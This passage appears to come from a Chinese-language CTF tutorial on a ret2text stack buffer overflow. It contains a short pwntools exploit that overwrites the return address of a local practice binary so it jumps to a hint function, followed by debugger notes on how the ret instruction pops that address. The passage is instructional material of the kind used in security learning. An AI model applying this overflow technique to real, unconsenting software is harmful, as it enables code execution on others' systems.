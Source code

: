 当main函数执行到ret指令时, 就会返回跳转到hint函数去执行

#### Exploit

```python
from pwn import*

o = process('./ret2text_basic')
 
hint = 0x4005D6
payload = 'a'*0x18 + p64(hint)
o.sendline(payload)

o.interactive()
```

在调用scanf函数下一条指令处设置断点, 看看执行情况

![e2f6c455de1eef94f687d6bf020f4604](Self-help_Clown.assets/e2f6c455de1eef94f687d6bf020f4604.png)

接着执行到ret指令

![4f5667bb4d3b1551b3f3b32a882026af](Self-help_Clown.assets/4f5667bb4d3b1551b3f3b32a882026af.png)

ret指令会跳转到当前栈顶的那个地址去接着执行代码
